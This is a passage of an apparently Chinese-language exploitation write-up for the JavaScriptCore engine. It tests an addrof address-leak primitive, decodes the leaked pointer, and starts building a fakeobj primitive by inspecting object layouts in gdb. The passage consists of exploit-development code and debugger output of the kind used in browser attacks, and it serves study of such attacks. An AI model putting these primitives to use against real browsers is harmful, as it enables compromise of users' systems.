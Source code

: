 ```javascript
    return AddrGetter(array);
}
```

测试任意对象地址泄露原语的效果
```javascript
arr = [1, 2, 3]

print(describe(arr))
// Object: 0x7f2ffbeb4340 with butterfly 0x7f20000e4010 (Structure 0x7f2ffbef2c30:[Array, {}, CopyOnWriteArrayWithInt32, Proto:0x7f2ffbec80a0, Leaf]), StructureID: 102

print(addrof(arr))
// 6.909214912619e-310
```

解码后可以看到`addrof`原语效果不错
```python
>>> hex(struct.unpack("Q", struct.pack("d", 6.909214912619e-310))[0])
>>> '0x7f2ffbeb4340'
```

接下来实现任意伪造对象原语`fakeobj`

任意地址构造对象的重要前提是这个地址指向的是合法的对象，如同Poc里所展示的，默认情况下，地址`0x0000616161616161`大概率是不会有合法对象存在的

创建一个空对象，它的butterfly目前是空的，第一个属性`obj.x`值为`1`
```shell
>>> obj = {}
>>> obj.x = 1
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470310:[Object, {x:0}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 294

(gdb) x/4gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000126	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0x0000000000000000
```

创建一个空对象，并添加三个属性，此时butterfly依旧为空，所有属性内联
```shell
>>> obj = {}
>>> obj.x = 1
>>> obj.y = 2
>>> obj.z = 3
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf4703f0:[Object, {x:0, y:1, z:2}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 296

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000128	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0xffff000000000002
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```
